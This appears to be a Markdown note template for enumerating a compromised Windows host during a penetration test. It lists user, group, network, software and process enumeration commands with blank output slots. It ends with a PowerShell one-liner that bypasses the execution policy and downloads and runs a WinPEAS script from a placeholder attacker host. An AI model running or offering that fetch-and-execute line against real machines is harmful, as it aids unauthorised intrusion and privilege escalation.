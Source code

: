 # Windows

## System Information
### Username and Hostname
```powershell
whoami
```
```powershell
<insert hostname\username here>
```

### Group memberships of the current user
```powershell
whoami /groups
```
```powershell
<insert output here>
```

### Existing users and groups
- **Enumerating Users**
    ```batch
    net user
    ```
    ```batch
    <insert output here>
    ```
    ```powershell
    Get-LocalUser
    ```
    ```batch
    <insert output here>
    ```
- **Enumerating Groups**
    ```batch
    net localgroup
    ```
    ```batch
    <insert output here>
    ```
    ```powershell
    Get-LocalGroup
    ```
    ```powershell
    <insert output here>
    ```
    ```powershell
    Get-LocalGroupMember $GROUP
    ```
    ```powershell
    <insert output here>
    ```

### Operating system, version and architecture
- **System Information**
    ```batch
    systeminfo
    ```
    ```batch
    <insert output here>
    ```
- **Network Information**
    ```batch
    ipconfig /all
    ```
    ```batch
    <insert output here>
    ```
    ```batch
    route print
    ```
    ```batch
    <insert output here>
    ```
    ```batch
    netstat -ano
    ```
    ```batch
    <insert output here>
    ```
- **Installed Applications and Running Services**
    ```powershell
    Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
    ```
    ```powershell
    <insert output here>
    ```
    ```powershell
    Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
    ```
    ```powershell
    <insert output here>
    ```
    ```batch
    dir C:\Program Files
    ```
    ```batch
    <insert output here>
    ```
    ```batch
    dir C:\Program Files (x86)
    ```
    ```batch
    <insert output here>
    ```
    ```batch
    dir %USERPROFILE%\Downloads
    ```
    ```batch
    <insert output here>
    ```
    ```powershell
    Get-Process
    ```
    ```powershell
    <insert output here>
    ```

## Winpeas
```powershell
powershell -exec bypass -c "iex ((New-Object System.Net.WebClient).DownloadString('http://$IP_ADDRESS/winpeas.ps1'))"
```
```powershell
<insert winpeas output here>
```
